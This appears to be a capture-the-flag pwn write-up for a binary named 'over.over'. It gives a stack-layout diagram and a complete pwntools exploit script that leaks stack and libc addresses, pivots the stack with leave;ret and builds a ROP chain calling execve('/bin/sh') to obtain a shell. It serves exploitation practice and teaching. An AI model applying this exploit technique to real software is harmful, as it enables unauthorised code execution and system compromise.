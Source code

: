  ```java 
  -----------------------
aaaaaaaa                     ｜buf_addr-0x30
-----------------------
pop_rdi_ret                 ｜rdi = /bin/sh_addr
-----------------------
/bin/sh_addr               ｜
-----------------------
pop_rdx_pop_rsi_ret ｜rdx = 0 rsi = 0
-----------------------
p64(0)                         ｜
-----------------------
p64(0)                         ｜
-----------------------
execve_addr               ｜rip = execve_addr
-----------------------
aaaaa.....                      ｜padding
-----------------------  
 buf_addr-0x30          ｜fake_rbp
-----------------------
0x4006be                    ｜leave_ret
-----------------------

  ``` 
  
exp： 
 
 ```java 
  from pwn import *
context.binary = "./over.over"
context.arch = 'amd64'
context.log_level = 'debug'
context.terminal = ['deepin-terminal', '-x', 'sh' ,'-c']

sh = process("./over.over")
elf = ELF("./over.over")
libc = elf.libc

sh.sendafter(">", 'a' * 80)
stack = u64(sh.recvuntil("\x7f")[-6: ].ljust(8, '\0')) - 0x70

sh.sendafter(">", flat(['aaaaaaaa', 0x400793, elf.got['puts'], elf.plt['puts'], 0x400676, (80 - 40) * 'a', stack, 0x4006be]))
libc.address = u64(sh.recvuntil("\x7f")[-6: ].ljust(8, '\0')) - libc.sym['puts']
pop_rdi_ret=0x400793
# gdb.attach(sh)
pop_rdx_pop_rsi_ret=libc.address+0x00000000000f52b9
payload=flat(['aaaaaaaa', pop_rdi_ret, next(libc.search("/bin/sh")),pop_rdx_pop_rsi_ret,p64(0),p64(0), libc.sym['execve'], (80 - 7*8 ) * 'a', stack - 0x30, 0x4006be])
sh.sendafter(">", payload)
sh.interactive()

  ``` 
 
                                        